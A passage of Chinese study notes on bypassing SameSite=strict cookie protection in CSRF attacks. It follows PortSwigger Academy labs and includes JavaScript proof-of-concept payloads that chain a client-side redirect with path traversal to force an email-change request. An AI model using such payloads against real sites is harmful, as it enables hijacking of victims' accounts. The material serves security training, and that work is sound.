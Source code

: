 在设置 Cookie 以使持有者能够修改数据或执行其他敏感操作（例如访问仅对经过身份验证的用户可用的特定页面）时，建议这样做。

尽管这是最安全的选项，但在需要跨站点功能的情况下，它可能会对用户体验产生负面影响。

针对`samesite=strict`限制，一种绕过方式是借助开放重定向打组合拳

##### **使用前端重定向绕过strict限制**

就浏览器而言，这些前端重定向**并不是真正意义上的重定向**（是由前端脚本决定的，而不是http交互逻辑30x决定的）；由此产生的请求被视为普通的独立请求。最重要的是，**这是一个同站点请求**，因此会包含与该站点相关的所有 cookies，而不受任何限制。

>[Lab:Bypassing SameSite restrictions using on-site gadgets](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)
>
>这个实验，当评论提交后会跳转到`/post/comment/confirmation?postId=x`，之后会被带回到`post/x`。该过程并不是由http交互逻辑/状态码30x决定的，而是由前端的js脚本实现的；所以浏览器并不会考虑`same-site`的问题。
>
>当我的POC为
>
>```javascript
><script>
>document.location = "https://0a52006003e2ee0c8008a81000270023.web-security-academy.net/my-account/change-email?email=pwssdcnffed%40web-security-academy.net%26submit=1";
></script>
>```
>
>由于浏览器的`samesite=strict`访问并不会带上cookie
>
>![image-20231121173649166](https://raw.githubusercontent.com/m1crofan/image/main/image-20231121173649166.png)
>
>但是当POC为：
>
>```solidity
><script>
>document.location = "https://0a52006003e2ee0c8008a81000270023.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwnffed%40web-security-academy.net%26submit=1";
></script>
>```
>
>该POC借助网站的前端脚本实现跳转以及目录穿越两个组合拳达到绕过`samesite`限制的CSRF效果：使得修改邮箱的请求成功带上了cookie。
>
>![image-20231121174158907](https://raw.githubusercontent.com/m1crofan/image/main/image-20231121174158907.png)

##### 通过易受攻击的同级域绕过strict限制

即使请求是`cross-origin`发出的，依然可以是`same-site`的。

确保彻底审核所有可用的攻击面，包括任何同级域。特别是，能够诱发任意二次请求（如 XSS）的漏洞会完全破坏基于网站的防御，使网站的所有域都受到跨站攻击。

>[Lab: SameSite Strict bypass via sibling domain ](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)
>
>此实验室的实时聊天功能容易受到跨站点Websocket劫持攻击。所以前提是学会websocket相关的漏洞。
>
>这个实验综合性较强，放在后面做
